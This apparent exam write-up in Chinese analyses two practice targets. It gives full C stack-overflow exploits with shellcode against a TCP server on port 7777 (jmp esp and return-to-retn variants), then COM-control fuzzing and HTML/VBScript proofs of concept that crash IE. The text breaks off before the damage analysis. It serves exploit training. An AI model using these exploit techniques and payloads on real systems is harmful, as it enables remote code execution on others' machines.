# exploitme 溢出分析

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-365.htm`](https://www.pediy.com/kssd/pediy09/pediy09-365.htm)

> **试题 A 分析**PE 分析：

我们运行 `exploit_me_A.exe`，发现它开了 `7777` 端口，于是用 `telnet` 连接该端口，随便敲入字母，`exploit_me_A.exe` 将我们键入的字母打印了出来。

该程序功能就是：接收客户端传来的字符串并将其打印出来。

漏洞描述：

用 `od` 载入 `exploit_me_A.exe`，来到程序入口主要代码如下：

```
004010B0  /$  81EC B4030000 sub     esp, 3B4
004010B6  |.  8D8424 240200>lea     eax, dword ptr [esp+224]
004010BD  |.  55            push    ebp
004010BE  |.  50            push    eax                         ; /pWSAData
004010BF  |.  68 01010000   push    101                         ; |RequestedVersion = 101 (1.1.)
004010C4  |.  FF15 BC804000 call    dword ptr [<&WS2_32.#115>]   ; \\WSAStartup
004010CA  |.  6A 00         push    0                           ; /Protocol = IPPROTO_IP
004010CC  |.  6A 01         push    1                           ; |Type = SOCK_STREAM
004010CE  |.  6A 02         push    2                           ; |Family = AF_INET
004010D0  |.  FF15 C0804000 call    dword ptr [<&WS2_32.#23>]    ; \\socket
004010D6  |.  8BE8          mov     ebp, eax
004010D8  |.  85ED          test    ebp, ebp
004010DA  |.  7D 33         jge     short 0040110F
004010DC  |.  68 00914000   push    00409100                    ;  ASCII "socket creating error!"
004010E1  |.  55            push    ebp                         ; /Arg1
004010E2  |.  B9 689A4000   mov     ecx, 00409A68               ; |
004010E7  |.  E8 0C070000   call    004017F8                    ; \\exploit_.004017F8
004010EC  |.  8BC8          mov     ecx, eax
004010EE  |.  E8 34030000   call    00401427
004010F3  |.  68 D0124000   push    004012D0
004010F8  |.  6A 0A         push    0A                          ; /Arg1 = 0000000A
004010FA  |.  8BC8          mov     ecx, eax                    ; |
004010FC  |.  E8 DF010000   call    004012E0                    ; \\exploit_.004012E0
00401101  |.  8BC8          mov     ecx, eax
00401103  |.  E8 A8010000   call    004012B0
00401108  |.  6A 01         push    1
0040110A  |.  E8 430E0000   call    00401F52
0040110F  |>  68 611E0000   push    1E61                        ; /NetShort = 1E61
00401114  |.  66:C74424 0C >mov     word ptr [esp+C], 2         ; |
0040111B  |.  FF15 C4804000 call    dword ptr [<&WS2_32.#9>]     ; \\ntohs
00401121  |.  6A 00         push    0                           ; /NetLong = 0
00401123  |.  66:894424 0E  mov     word ptr [esp+E], ax        ; |
00401128  |.  FF15 C8804000 call    dword ptr [<&WS2_32.#8>]     ; \\ntohl
0040112E  |.  8D4C24 08     lea     ecx, dword ptr [esp+8]
00401132  |.  6A 10         push    10                          ; /AddrLen = 10 (16.)
00401134  |.  51            push    ecx                         ; |pSockAddr
00401135  |.  55            push    ebp                         ; |Socket
00401136  |.  894424 18     mov     dword ptr [esp+18], eax     ; |
0040113A  |.  FF15 CC804000 call    dword ptr [<&WS2_32.#2>]     ; \\bind
00401140  |.  85C0          test    eax, eax
00401142  |.  74 24         je      short 00401168
00401144  |.  68 E0904000   push    004090E0                    ;  ASCII "binding stream socket error!"
00401149  |.  B9 689A4000   mov     ecx, 00409A68
0040114E  |.  E8 D4020000   call    00401427
00401153  |.  68 D0124000   push    004012D0
00401158  |.  6A 0A         push    0A                          ; /Arg1 = 0000000A
0040115A  |.  8BC8          mov     ecx, eax                    ; |
0040115C  |.  E8 7F010000   call    004012E0                    ; \\exploit_.004012E0
00401161  |.  8BC8          mov     ecx, eax
00401163  |.  E8 48010000   call    004012B0
00401168  |>  53            push    ebx
00401169  |.  68 B8904000   push    004090B8                    ;  ASCII "********************************"
0040116E  |.  B9 689A4000   mov     ecx, 00409A68
00401173  |.  E8 AF020000   call    00401427
00401178  |.  68 D0124000   push    004012D0
0040117D  |.  6A 0A         push    0A                          ; /Arg1 = 0000000A
0040117F  |.  8BC8          mov     ecx, eax                    ; |
00401181  |.  E8 5A010000   call    004012E0                    ; \\exploit_.004012E0
00401186  |.  8BC8          mov     ecx, eax
00401188  |.  E8 23010000   call    004012B0
0040118D  |.  68 94904000   push    00409094                    ;  ASCII "     exploit target server 1.0",TAB,"   "
00401192  |.  B9 689A4000   mov     ecx, 00409A68
00401197  |.  E8 8B020000   call    00401427
0040119C  |.  68 D0124000   push    004012D0
004011A1  |.  6A 0A         push    0A                          ; /Arg1 = 0000000A
004011A3  |.  8BC8          mov     ecx, eax                    ; |
004011A5  |.  E8 36010000   call    004012E0                    ; \\exploit_.004012E0
004011AA  |.  8BC8          mov     ecx, eax
004011AC  |.  E8 FF000000   call    004012B0
004011B1  |.  68 B8904000   push    004090B8                    ;  ASCII "********************************"
004011B6  |.  B9 689A4000   mov     ecx, 00409A68
004011BB  |.  E8 67020000   call    00401427
004011C0  |.  68 D0124000   push    004012D0
004011C5  |.  6A 0A         push    0A                          ; /Arg1 = 0000000A
004011C7  |.  8BC8          mov     ecx, eax                    ; |
004011C9  |.  E8 12010000   call    004012E0                    ; \\exploit_.004012E0
004011CE  |.  8BC8          mov     ecx, eax
004011D0  |.  E8 DB000000   call    004012B0
004011D5  |.  6A 04         push    4                           ; /Backlog = 4
004011D7  |.  55            push    ebp                         ; |Socket
004011D8  |.  FF15 D0804000 call    dword ptr [<&WS2_32.#13>]    ; \\listen
004011DE  |.  8D5424 08     lea     edx, dword ptr [esp+8]
004011E2  |.  8D4424 1C     lea     eax, dword ptr [esp+1C]
004011E6  |.  52            push    edx                         ; /pAddrLen
004011E7  |.  50            push    eax                         ; |pSockAddr
004011E8  |.  55            push    ebp                         ; |Socket
004011E9  |.  C74424 14 100>mov     dword ptr [esp+14], 10      ; |
004011F1  |.  FF15 D4804000 call    dword ptr [<&WS2_32.#1>]     ; \\accept
004011F7  |.  8BD8          mov     ebx, eax
004011F9  |.  83FB FF       cmp     ebx, -1
004011FC  |.  74 7F         je      short 0040127D
004011FE  |.  56            push    esi
004011FF  |.  57            push    edi
00401200  |>  B9 80000000   /mov     ecx, 80
00401205  |.  33C0          |xor     eax, eax
00401207  |.  8D7C24 34     |lea     edi, dword ptr [esp+34]
0040120B  |.  50            |push    eax                        ; /Flags => 0
0040120C  |.  F3:AB         |rep     stos dword ptr es:[edi]    ; |
0040120E  |.  8D4C24 38     |lea     ecx, dword ptr [esp+38]    ; |
00401212  |.  68 00020000   |push    200                        ; |BufSize = 200 (512.)
00401217  |.  51            |push    ecx                        ; |Buffer
00401218  |.  53            |push    ebx                        ; |Socket
00401219  |.  FF15 D8804000 |call    dword ptr [<&WS2_32.#16>]   ; \\recv
0040121F  |.  8BF0          |mov     esi, eax
00401221  |.  85F6          |test    esi, esi
00401223  |.  7D 26         |jge     short 0040124B
00401225  |.  68 74904000   |push    00409074                   ;  ASCII "reading stream message erro!"
0040122A  |.  B9 689A4000   |mov     ecx, 00409A68
```


# 漏洞分析

> 0040122F  |.  E8 F3010000  |call    00401427  
> 00401234  |.  68 D0124000   |push    004012D0  
> 00401239  |.  6A 0A         |push    0A                         ;  /Arg1 = 0000000A  
> 0040123B  |.  8BC8          |mov     ecx, eax                   ;  |  
> 0040123D  |.  E8 9E000000   |call    004012E0                   ;  \\exploit\_.004012E0  
> 00401242  |.  8BC8          |mov     ecx, eax  
> 00401244  |.  E8 67000000   |call    004012B0  
> 00401249  |.  33F6          |xor     esi, esi  
> 0040124B  |>  8D5424 34     |lea     edx, dword ptr [esp+34]    ;  取接收到的字符串地址  
> 0040124F  |.  52            |push    edx  
> 00401250  |.  E8 ABFDFFFF   |call    00401000              ;  这里返回时 eip 被覆盖  

我们发现 实际上是基本的网络程序 C/S 模型的服务端 框架 ，主要功能 开一端口 7777，监听，接收数据。

在这段代码中，在 `recv` 处 有字符串复制操作 ，并且一次接收的字符串 为 0x200 也就是 512 字节。

下面我们就尝试让程序溢出崩溃。

用 vc 写一测试代码

主要就是用网络函数 `connect()`   `send()` 向 目标程序发送过长字符串。

测试代码如下，一个很简单的发送字符串的代码：

```c
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib,"ws2_32")
int main()
{
  char buffer[1000]=
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
  WSADATA wsa;
  WSAStartup(MAKEWORD(2,0),&wsa);
  SOCKET s,s1;
  struct sockaddr_in target;
  target.sin_family=AF_INET;
  target.sin_addr.s_addr=inet_addr("127.0.0.1");
  target.sin_port=htons(7777);
  s=socket(AF_INET,SOCK_STREAM,0);
  connect(s,(struct sockaddr *)&target,sizeof(target));
  Sleep(1000);
  send(s,buffer,sizeof(buffer),0);  //发送字符串
  Sleep(1000);
  WSACleanup();
  return 1;
}
```

我们先运行 `exploit_me_A.exe`

然后运行我们的测试程序，这时 `exploitme_me_A.exe` 显示如下：



很显然 `exploitme_me_A.exe` 在打印完我们输入的串后，在某处 eip 被串覆盖。

好了现在我们要做的几就是找到 eip 被覆盖的地方，在这里填上一跳转指令的地址，改跳转指令负责跳到我们的 shellcode 的地方去，然后就大功告成了。

再用 od 加载目标程序 我们在 `recv` 函数下面

00401223  |.  7D 26         |jge     short 0040124B  
这条指令的地方下断，该处指令意思很明显,如果 `recv` 函数执行失败，则打印错误消息否则继续到 40124b 出执行。

我们下断后按下 F9 目标程序 处于监听，等待接收状态。

这时 运行我们的测试程序，od 断下。


我们单步 f8，当执行完 `call 401000` 时  

目标程序崩溃。这里意思很明显了，多半是 `call` 执行完 返回时，返回地址被覆盖。

我们重新加载 od 重复上面步骤 到 `call 401000` 时 f7 跟进去

相关代码及主要部分分析如下：

```
00401000  /$  81EC C8000000  sub     esp, 0C8                    ;  分配 200 字节栈空间
00401006  |.  83C9 FF       or      ecx, FFFFFFFF
00401009  |.  33C0          xor     eax, eax
0040100B  |.  8D5424 00     lea     edx, dword ptr [esp]
0040100F  |.  56            push    esi                         ;  512
00401010  |.  57            push    edi                         ;
00401011  |.  8BBC24 D40000>mov     edi, dword ptr [esp+D4]     ;  edi 指向我们发送的串
00401018  |.  68 4C904000   push    0040904C                    ;  ASCII "****************"
0040101D  |.  F2:AE         repne   scas byte ptr es:[edi]
0040101F  |.  F7D1          not     ecx                         ;  获得串长度
00401021  |.  2BF9          sub     edi, ecx                    ;  edi 指向串头
00401023  |.  8BC1          mov     eax, ecx
00401025  |.  8BF7          mov     esi, edi
00401027  |.  8BFA          mov     edi, edx
00401029  |.  C1E9 02       shr     ecx, 2                      ;
0040102C  |.  F3:A5         rep     movs dword ptr es:[edi], dw>;  把串复制到分配的栈空间里共复制了 132*4 字节，超出了 200 字节，这里把该函数的返回地址覆盖了。
0040102E  |.  8BC8          mov     ecx, eax
00401030  |.  83E1 03       and     ecx, 3                      ;
00401033  |.  F3:A4         rep     movs byte ptr es:[edi], byt>
00401035  |.  B9 689A4000   mov     ecx, 00409A68
0040103A  |.  E8 E8030000   call    00401427
0040103F  |.  68 D0124000   push    004012D0
00401044  |.  6A 0A         push    0A                         ; /Arg1 = 0000000A
00401046  |.  8BC8          mov     ecx, eax                    ; |
00401048  |.  E8 93020000   call    004012E0                    ; \\exploit\_.004012E0
0040104D  |.  8BC8          mov     ecx, eax
0040104F  |.  E8 5C020000   call    004012B0
00401054  |.  68 40904000   push    00409040                    ;  ASCII "received:"
00401059  |.  B9 689A4000   mov     ecx, 00409A68
0040105E  |.  E8 C4030000   call    00401427
00401063  |.  68 D0124000   push    004012D0
00401068  |.  6A 0A         push    0A                         ; /Arg1 = 0000000A
0040106A  |.  8BC8          mov     ecx, eax                    ; |
0040106C  |.  E8 6F020000   call    004012E0                    ; \\exploit\_.004012E0
00401071  |.  8BC8          mov     ecx, eax
00401073  |.  E8 38020000   call    004012B0
00401078  |.  8D4C24 08     lea     ecx, dword ptr [esp+8]
0040107C  |.  51            push    ecx
0040107D  |.  B9 689A4000   mov     ecx, 00409A68
00401082  |.  E8 A0030000   call    00401427                    ;  打印串
00401087  |.  68 D0124000   push    004012D0
0040108C  |.  6A 0A         push    0A                         ; /Arg1 = 0000000A
0040108E  |.  8BC8          mov     ecx, eax                    ; |
00401090  |.  E8 4B020000   call    004012E0                    ; \\exploit\_.004012E0
00401095  |.  8BC8          mov     ecx, eax
00401097  |.  E8 14020000   call    004012B0
0040109C  |.  5F            pop     edi
0040109D  |.  5E            pop     esi
0040109E  |.  81C4 C8000000 add     esp, 0C8                    ;  esp 想栈底移动 200 字节
004010A4  \.  C3            retn                                ;  返回执行 esp 所指指令
```

好了，我们明白了在 字符串 200 字节后面就是 `call 401000` 函数的返回地址，我们的 exploit 也就马上可以写出来了，把跳转指令跟在 200 个字符后，再放上 shellcode，就 ok 了。（这里是一般的 `jmp esp` 的方法，问题是可能找不到一个比较通用的跳转地址，我继续把这种利用方式描述完，之后再描述另一种更通用的利用方式。）

我们的跳转指令就选 `jmp esp` ，当返回指令被 `jmp esp` 地址覆盖，当子函数执行 `retn` 时要跳去执行 `jmp esp` 这个指令 同时 `esp` 往下移动 4 字节就指向我们 shellcode 了，这时后 `jmp esp` 就 jump 到了我们 shellcode 指令处了。

我们的 exploit 代码如下：

```c
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib,"ws2_32")
#define jump_addr "\\xd8\\x69\\x83\\x7c"  
char shellcode[]=
"\\xFC\\x68\\x6A\\x0A\\x38\\x1E\\x68\\x63\\x89\\xD1\\x4F\\x68\\x32\\x74\\x91\\x0C"
"\\x8B\\xF4\\x8D\\x7E\\xF4\\x33\\xDB\\xB7\\x04\\x2B\\xE3\\x66\\xBB\\x33\\x32\\x53"
"\\x68\\x75\\x73\\x65\\x72\\x54\\x33\\xD2\\x64\\x8B\\x5A\\x30\\x8B\\x4B\\x0C\\x8B"
"\\x49\\x1C\\x8B\\x09\\x8B\\x69\\x08\\xAD\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\x05\\x95"
"\\xFF\\x57\\xF8\\x95\\x60\\x8B\\x45\\x3C\\x8B\\x4C\\x05\\x78\\x03\\xCD\\x8B\\x59"
"\\x20\\x03\\xDD\\x33\\xFF\\x47\\x8B\\x34\\xBB\\x03\\xF5\\x99\\x0F\\xBE\\x06\\x3A"
"\\xC4\\x74\\x08\\xC1\\xCA\\x07\\x03\\xD0\\x46\\xEB\\xF1\\x3B\\x54\\x24\\x1C\\x75"
"\\xE4\\x8B\\x59\\x24\\x03\\xDD\\x66\\x8B\\x3C\\x7B\\x8B\\x59\\x1C\\x03\\xDD\\x03"
"\\x2C\\xBB\\x95\\x5F\\xAB\\x57\\x61\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\xA9\\x33\\xDB"
```


`"\x53\x68\x69\x6e\x64\x21\x68\x6e\x65\x74\x77\x8B\xC4\x53\x50\x50"`

`"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"`;

```c
int main()
{
  char buffer[1000];
  int i=0;
  memset(buffer,0,sizeof(buffer)-1);
  for(i=0;i<200;i++)
    strcpy(buffer+i,"A"); //前面放 200 字节字符串，放什么都可以别放 0 就好。
  strcpy(buffer+i,jump_addr); //然后放跳转指令地址
  strcpy(buffer+i+4,shellcode); //然后放我们的 shellcode
  WSADATA wsa;
  WSAStartup(MAKEWORD(2,0),&wsa);
  SOCKET s,s1;
  struct sockaddr_in target;
  target.sin_family=AF_INET;
  target.sin_addr.s_addr=inet_addr("127.0.0.1");
  target.sin_port=htons(7777);
  s=socket(AF_INET,SOCK_STREAM,0);
  connect(s,(struct sockaddr *)&target,sizeof(target));
  Sleep(1000);
  send(s,buffer,sizeof(buffer),0);   //send result; 发串了
  Sleep(1000);
  WSACleanup();
  return 1;
}
```

Exploit 很简单，没什么需要解释的。我说明下跳转指令地址是用 `od` 插件 搜索的在 `kernel32.dll` 里的地址，另外根据 `failwest` 老师的说明，该考试用来提高大家漏洞分析能力的，不是专门针对编写 shellcode 的，所以嘛，我就把 `failwest` 老师的精悍的 shellcode 拿来用了，当学生我是最听老师话了，老师怎么说就怎么做嘛，呵呵。

我引用 shellcode 时把弹出的名字改为了自己在 `pediy` 的 id。

//
// 此方式的问题就是不通用。
// 下面我们继续找出一种更通用的利用方式：
// 我们用 `od` 加载目标程序 让其运行到 `call 401000` 函数的返回地址处停下如图所示：



这个是指令窗口停在 函数返回指令上，该返回指令可以被我们覆盖。


这个是这时的堆栈窗口。
其中 `12fbb8` 的地方就是子函数返回地址所在地方，我这里已经用地址 `4010a4` 把它覆盖了

我们看到 `12fbbc` 处 的值是 `12fbf4`

我们再看看 `12fbf4` 指向的是什么内容：


这个是堆栈 `12fbf4` 的内容 这个地址 就是 `recv` 接收我们的串时 把串存放的地址，呵呵。

这里我改变了串的构造方式 ，格式为：`shellcode+AAAA+jum_addr.`。

我们只要把返回地址处指令覆盖为 `retn` 的地址 ，那么函数返回时 就直接跳到 `12fbf4` 所指的指令去执行了，这时 `12fbf4` 放的是我们的 `shellcode` 那么我们 `shellcode` 就顺利执行了。

那么我们只需在程序代码找个 `retn` 返回地址就可以了


其实眼前就有个 这里我选的是 `004010a4`。

字符串复制时，遇 0 会断掉，但这里我们已经可以成功把返回地址覆盖了，所以它把 `4010a4` 复制进去就断了，刚好覆盖了返回地址，达到目的了。

好了，修改后的 exploit 如下：

```c
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib,"ws2_32")
#define jump_addr "\\xa4\\x10\\x40"
char shellcode[] =
"\\xFC\\x68\\x6A\\x0A\\x38\\x1E\\x68\\x63\\x89\\xD1\\x4F\\x68\\x32\\x74\\x91\\x0C"
"\\x8B\\xF4\\x8D\\x7E\\xF4\\x33\\xDB\\xB7\\x04\\x2B\\xE3\\x66\\xBB\\x33\\x32\\x53"
"\\x68\\x75\\x73\\x65\\x72\\x54\\x33\\xD2\\x64\\x8B\\x5A\\x30\\x8B\\x4B\\x0C\\x8B"
"\\x49\\x1C\\x8B\\x09\\x8B\\x69\\x08\\xAD\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\x05\\x95"
"\\xFF\\x57\\xF8\\x95\\x60\\x8B\\x45\\x3C\\x8B\\x4C\\x05\\x78\\x03\\xCD\\x8B\\x59"
"\\x20\\x03\\xDD\\x33\\xFF\\x47\\x8B\\x34\\xBB\\x03\\xF5\\x99\\x0F\\xBE\\x06\\x3A"
"\\xC4\\x74\\x08\\xC1\\xCA\\x07\\x03\\xD0\\x46\\xEB\\xF1\\x3B\\x54\\x24\\x1C\\x75"
"\\xE4\\x8B\\x59\\x24\\x03\\xDD\\x66\\x8B\\x3C\\x7B\\x8B\\x59\\x1C\\x03\\xDD\\x03"
"\\x2C\\xBB\\x95\\x5F\\xAB\\x57\\x61\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\xA9\\x33\\xDB"
"\\x53\\x68\\x69\\x6e\\x64\\x21\\x68\\x6e\\x65\\x74\\x77\\x8B\\xC4\\x53\\x50\\x50"
"\\x53\\xFF\\x57\\xFC\\x53\\xFF\\x57\\xF8";
int main()
{
  char buffer[0x2000];
  int i=0,j;
  strcpy(buffer,shellcode);
  for(i=0;i+sizeof(shellcode)-1<200;i++)
    strcpy(buffer+i+sizeof(shellcode)-1,"A");
  strcpy(buffer+i+sizeof(shellcode)-1,jump_addr);
  WSADATA wsa;
  WSAStartup(MAKEWORD(2,0),&wsa);
  SOCKET s,s1;
  struct sockaddr_in target;
  target.sin_family=AF_INET;
  target.sin_addr.s_addr=inet_addr("127.0.0.1");
  target.sin_port=htons(7777);
  s=socket(AF_INET,SOCK_STREAM,0);
  connect(s,(struct sockaddr *)&target,sizeof(target));
  Sleep(1000);
  send(s,buffer,sizeof(buffer),0);   //send result;
  Sleep(1000);
  WSACleanup();
  return 1;
}
```

我讲在下面 “稳定性与通用性论证” 一栏介绍为什么选 `004010a4` 这个地址具有通用性。

shellcode 描述：
该 `shellcode` 被成功执行时弹出方框，然后退出。

原 `shellcode` 代码为：
`"\\xFC\\x68\\x6A\\x0A\\x38\\x1E\\x68\\x63\\x89\\xD1\\x4F\\x68\\x32\\x74\\x91\\x0C"`
`"\\x8B\\xF4\\x8D\\x7E\\xF4\\x33\\xDB\\xB7\\x04\\x2B\\xE3\\x66\\xBB\\x33\\x32\\x53"`
`"\\x68\\x75\\x73\\x65\\x72\\x54\\x33\\xD2\\x64\\x8B\\x5A\\x30\\x8B\\x4B\\x0C\\x8B"`
`"\\x49\\x1C\\x8B\\x09\\x8B\\x69\\x08\\xAD\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\x05\\x95"`
`"\\xFF\\x57\\xF8\\x95\\x60\\x8B\\x45\\x3C\\x8B\\x4C\\x05\\x78\\x03\\xCD\\x8B\\x59"`
`"\\x20\\x03\\xDD\\x33\\xFF\\x47\\x8B\\x34\\xBB\\x03\\xF5\\x99\\x0F\\xBE\\x06\\x3A"`
`"\\xC4\\x74\\x08\\xC1\\xCA\\x07\\x03\\xD0\\x46\\xEB\\xF1\\x3B\\x54\\x24\\x1C\\x75"`
`"\\xE4\\x8B\\x59\\x24\\x03\\xDD\\x66\\x8B\\x3C\\x7B\\x8B\\x59\\x1C\\x03\\xDD\\x03"`
`"\\x2C\\xBB\\x95\\x5F\\xAB\\x57\\x61\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\xA9\\x33\\xDB"`
`"\\x53\\x68\\x77\\x65\\x73\\x74\\x68\\x66\\x61\\x69\\x6C\\x8B\\xC4\\x53\\x50\\x50"`
`"\\x53\\xFF\\x57\\xFC\\x53\\xFF\\x57\\xF8";`

exploit 运行截图


Exploit 修改前运行效果图


Exploit 修改后运行效果图

### 稳定性与通用性论证

一开始我们用 `kernel32.dll` 里的 `jmp esp` 的地址，`kernel32.dll` 由于版本，是否打补丁等影响，不同机器里的可能不一样，这样 `jmp esp` 的地址就不一定会相同，这样 `exploit` 可能就会执行失败。

而选用程序本身的地址 `004010a4` 时，程序由系统加载其所用函数地址，指令地址都是由 `pe` 结构动态获得的，因此只要 `pe` 程序能正常运行，它自身的地址便是通用的。

### 创新性论证（可选）

一般，由于 `pe` 加载基地址从 `0x00400000` 开始，必然包含 `0`，而字符串 `copy` 时，遇 `0` 便会中断 `copy` ，那样我们构造的串就不能顺利植入目标程序，而系统地址 不包括 `0`，可以使用，但又不具有通用性。

在这里由于目标程序刚好再 200 字节后是返回地址，我们的 `shellcode` 低于 200 字节，我们把 `shellcode` 放在前面，200 字节后放目标程序里的跳转地址，且能跳到 `shellcode`，我们就只需要这么多串就足够了，所以对于本环境来说第二种方式具有很好的通用性，是一种较好的利用方式。

//////////////////////////
**B 题分析:**

在这里我用的是 `comraider` 来发掘 `com` 组件的漏洞,我们用 `comraider` 打开 `exploit_me_B.dll` 然后选择所列出的一个函数 点右键 选择 `fuzz memory`,一般参数带有字符串的函数 可能存在溢出漏洞,这里我选择的是 `loadpage` 函数.如图


然后点 `next` ,点 `begin fuzz`.

刚开始 时 我总是遇到一个错误提示框 如图


老是搞不明白是什么问题,浪费了很多时间,其实是这样的，比如我注册 `exploit_me_B.dll` 时用的路径是 `d:\\ exploit_me_B.dll`,但我用 `comraider` 打开的却是桌面上放的 `exploit_me_B.dll`,就有这个错误了,不知道是否有朋友遇到类似情况,只要打开注册时 所在路径的 `dll` 就可以了.

下面是点 `begin fuzz` 后的运行结果.


显示出有很多处异常,有异常就有可能有被利用的可能,这里我们对第一个 点右键,选择在 `ie` 测试运行结果如图:


`Ie` 崩溃了 ,下面我们看看 它是否能被利用.

`Comraider` 的确是个好工具 测试的 `poc` 代码也顺便给出来了.

对第一个异常所在行点右键选择 `view file` 就可以看到代码.

其中有用部分为:
```html
<object classid='clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2' id='target' />
<script language='vbscript'>
arg1=String(1044, "A")
arg2=1
arg3=1
arg4=1
target.LoadPage arg1 ,arg2 ,arg3 ,arg4
</script>
```

对应 `javascript` 代码为:
```html
<object id="target" classid="clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2"></object>
<script language="javascript">
//Var arg1=String(1044, "A");//这里 javascript 没这个函数,开始时,我用这个函数,又浪费了我 n 多时间.
var arg1="AAAAAAAAAA";
while(arg1.length<1044)arg1+=arg1;          //这里放个超长串.
var arg2=1;
var arg3=1;
var arg4=1;
target.LoadPage(arg1,arg2,arg3,arg4);
</script>
```
好了保存为 `1.htm` 就是测试代码了.

好了,现在我们定位溢出点.

用 `od` 加载 `iexplorer.exe` 并运行,等运行出 `ie` 后 打开我们构造的 `1.htm`

`Ie` 这时如图:


然后在 `od` 里 按 `alt+e` 找到 `oleaut32.dll` 模块双击,然后再按 `ctrl+n` 找到 `DispCallFunc` 按 `f2` 设断 然后在 `ie` 里 对提示限制显示 那块点右键选择 允许阻止的内容

然后 `od` 就会断 到 `DispCallFunc` 处,`f8` 跟进 直到 出现 `call ecx` 时,`f7` 进去.

这时就来到 `loadpage` 入口了。


# 溢出点定位

下面我们的目的是发现溢出点在哪。我的笨办法就是一直 `f8` 下去，当遇到哪个 `cal` 指令运行后 IE 崩溃，那么再重来，跟进这个 `call`。

要说明下的是函数里有一步

`030CCDA5`  `|.  FF15 F4901703 call    \<&KERNEL>; \\WideCharToMultiByte`

所以我们传近来的字符串选要转为 `widechar` (`unicode`) 才能还原过来。

最后我们找到下面这个 `call` 返回地址被覆盖

![名称:  66.jpg

查看次数: 142

文件大小:  68.9 KB  

这是调用该 `call` 时 堆栈分布图。

该 `call` 返回地址被覆盖 无法正常执行原流程。

这里我们就找到溢出点了。

# 漏洞描述及危害分析

